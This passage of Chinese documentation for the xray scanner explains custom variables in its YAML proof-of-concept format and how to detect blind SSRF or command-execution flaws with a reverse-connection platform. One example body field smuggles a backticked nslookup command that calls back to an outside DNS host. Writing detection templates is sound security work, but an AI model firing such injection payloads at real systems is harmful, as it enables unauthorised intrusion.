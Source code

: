 上面的范例包含了自定义变量的一些规律和约束:
+ set 的 value 是表达式，可以使用所有全局函数
+ set 有先后次序，后面的变量可以使用前面的再次处理
+ set 中可以使用 `request` 和 `reverse`(下面讲到) 变量
+ 在 rules 的 expression 中可以直接使用自定义变量，非 expression 的部分需要使用 `{{}}` 包裹变量，因为其他位置不是表达式（类似 search)

更多复杂用法大家可以自行发挥。

## 如何编写借助反连平台的POC

反连平台是测试一些无回显漏洞的方法，如SSRF、命令执行等，下面介绍一下在编写POC的时候，如何借助反连平台来探测漏洞。

在新版 xray 中，我们在 set 域内注入了 `newReverse()` 函数，该函数将返回一个 reverse 的自定义类型变量，一个简单的用法如下:

```yaml
name: poc-yaml-example
set:
  reverse: newReverse()
  reverseURL: reverse.url
  reverseURLHost: reverse.url.host
rules:
  - method: GET
    path: "/url={{reverseURL}}&={{reverseURLHost}}"
    expression: |
      response.status == 200 && reverse.wait(5)
```
与反连平台相关的变量如下：
- `newReverse()` 返回一个新的反连平台实例, 假设赋值给 `reverse` 变量
- `reverse.url` 反连平台的url
- `reverse.domain` 反连平台的域名
- `reverse.ip` 反连平台的ip地址
- `reverse.wait` 等待反连信息

在上面的例子中，我们首先创建了一个 reverse 实例，然后将 reverse 的 url 和 host 存放在两个自定义变量中，并在 path 中使用了这两个变量。在漏洞检测时，如果目前访问了 reverseURL 的地址，反连平台就会收到信息。 `reverse.wait(timeout)` 这个函数，用来等待反连平台接受信息。此函数会使该 poc 的运行等待 `timeout` 秒，在这个时间内，如果反连平台收到消息，则返回 true，否则一直阻塞，直到超时时间，如果超时时间到后仍然未收到消息，则该函数返回 false

有时候目标网站无法发送HTTP请求，我们亦可用DNS请求来判断漏洞。如，目标网站存在命令执行漏洞，我们可以通过执行`nslookup`命令来请求我们反连平台的DNS服务器，如：

```yaml
name: poc-yaml-example
set:
  reverse: newReverse()
  reverseDomain: reverse.domain
  reverseIP: reverse.ip
rules:
  - method: GET
    path: /execute
    body: |
      param=`nslookup%20{{reverseDomain}}%20{{reverseIP}}`
    expression: |
      response.status == 200 && reverse.wait(5)
```

此时我们使用`{{reverseDomain}}`和`{{reverseIP}}`变量，前者会被替换成反连平台的域名，后者替换成反连平台IP，此时nslookup会向`{{reverseIP}}`发送一个包含`{{reverseDomain}}`的DNS请求，此时反连平台即将收到消息，并成功记录下漏洞。
